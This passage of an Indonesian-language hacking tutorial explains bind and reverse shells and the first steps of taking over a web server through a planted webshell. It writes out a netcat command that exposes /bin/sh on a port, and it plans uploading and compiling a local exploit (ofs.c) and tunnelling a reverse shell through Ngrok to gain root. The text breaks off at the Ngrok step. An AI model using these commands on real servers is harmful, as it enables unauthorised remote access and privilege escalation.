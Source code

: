 Seperti yang dijelaskan pada section [webshell](#2-b34k-webshell) di atas, salah satu kegunaannya adalah bisa diakses jarak jauh (*remote access*), karena webshell pada dasarnya merupakan sebuah shell, dan shell memiliki 2 tipe, yaitu:

**1. Bind Shell**

![bind-shell](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-bind-shell.jpg)

Bind Shell adalah ketika shell target diperintahkan dengan command `nc` untuk *listening* port tertentu. Dalam visualisasi di atas, pada target diperintah `nc -lvp 4444 -e /bin/sh`. Di mana port nya adalah 4444. Dan pada shell *Attacker* atau kita menjalankan perintah `nc ip_address port`. 

**2. Reverse Shell**

![reverse-shell](https://www.hackingtutorials.org/wp-content/uploads/2016/11/Netcat-reverse-shell.jpg)

Reverse Shell adalah kebalikan dari Bind Shell, yaitu ketika shell *Attacker* atau shell kita lah yang menjadi *listener* pada port tertentu. 

Untuk lebih jelas tentang Bind/Reverse Shell silakan baca di artikel berikut:
1. [https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
2. [https://medium.com/@Proclus/reverse-bind-shells-for-everyoned-e7507853bf4e](https://medium.com/@Proclus/reverse-bind-shells-for-everyoned-e7507853bf4e)
3. [https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9)


## 5. Eksploitasi

Setelah paham apa yang akan dieksploitasi, maka saya rumuskan ke dalam sebuah alur sederhana untuk serangan yang akan kita lakukan.  

1. Upload file eksploit ke dalam webshell.
2. Lakukan bind/reverse shell untuk mengkoneksikan webshell dengan pc/laptop kita.
3. Masukan perintah untuk meng-compile file eksploit yang sudah diupload.
4. Jalankan file hasil compile.
5. Cek user yang sedang digunakan, apakah sudah menjadi root.

Maka, mari kita eksekusi dengan alur yang telah dibuat di atas.

**Upload**

Upload ke dalam web server yang sudah tertanam webshell sangat mudah, dalam kasus ini file ofs.c sudah tersedia. Tapi jika pun belum, saya dapat dengan mudah melakukannya seperti upload ke dalam server pada umumnya.

**Bind/Reverse Shell**

Pada kasus ini saya menggunakan Reverse Shell dengan Ngrok karena terkadang web server target menjadi *lag* jika menggunakan Bind Shell atau Reverse Shell tanpa Ngrok. Skemanya tidak jauh berbeda, hanya saja pada webshell kita akan mengarahkan web server target ke subdomain Ngrok yang kita buat. Adapun langkahnya sebagai berikut:

1. Pada PC/Laptop, Jalankan Ngrok dengan perintah `./ngrok tcp 1337`. TCP adalah protokol dan 1337 adalah port yang kita gunakan. Anda bebas menggunakan port mana saja, pastikan port tersebut tidak terpakai. Jika berhasil, maka akan tampil.
